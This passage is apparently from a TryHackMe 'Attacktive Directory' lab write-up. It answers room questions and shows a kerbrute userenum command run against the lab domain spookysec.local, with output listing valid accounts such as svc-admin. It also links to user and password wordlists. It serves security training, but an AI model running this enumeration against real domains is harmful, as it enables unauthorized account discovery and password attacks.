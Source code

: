 #### What invalid TLD do people commonly use for their Active Directory Domain? 

`.local`

___

### Enumerating Users via Kerberos

Wordlists provided:

- [userlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
- [passwordlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

#### What command within Kerbrute will allow us to enumerate valid usernames?

`userenum`

#### What notable account is discovered? (These should jump out at you)

![ldapsearch](/assets/img/thm/windows/attackive-directory/ldapsearch.png)

> Do not forget to add `IP spookysec.local` into `/etc/hosts`  

```bash
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d THM-AD userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/19/21 - Ronnie Flathers @ropnop

2021/05/19 04:49:28 >  Using KDC(s):
2021/05/19 04:49:28 >   spookysec.local:88

2021/05/19 04:49:29 >  [+] VALID USERNAME:       james@THM-AD
2021/05/19 04:49:29 >  [+] VALID USERNAME:       svc-admin@THM-AD
```
